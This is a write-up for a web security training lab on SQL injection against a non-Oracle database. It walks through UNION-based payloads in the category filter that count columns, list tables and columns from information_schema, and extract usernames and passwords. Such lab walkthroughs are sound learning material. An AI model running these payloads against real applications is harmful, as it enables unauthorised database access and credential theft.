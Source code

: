 # SQL injection attack, listing the database contents on non-Oracle databases
# Objective
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.\
\
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.\
\
To solve the lab, log in as the administrator user.
# Solution

`/filter?category=Lifestyle’`—> Application is vulnerable 

## Determining the number of columns
`/filter?category=Lifestyle' order by 1--` \
`/filter?category=Lifestyle' order by 2--` \
`/filter?category=Lifestyle' order by 3--` -> Error -> Number of columns = 2

## Determining the types of columns
`/filter?category=Lifestyle' union select 'a','a'--` -> Both columns are string type \
`/filter?category=' union select table_name, null from information_schema.tables--` -> Listing tables

Target table name: `users_beinab`
## Listing column names in table
Listing column names in table `users_beinab`
```
/filter?category=' union select column_name, null from information_schema.columns where table_name='users_beinab'--
```
Retrieved column names: `username_qqtyzt`, `password_dumzqu`.

## Retrieving creadentials
```
/filter?category=' union select username_qqtyzt, password_dumzqu from users_beinab--
```

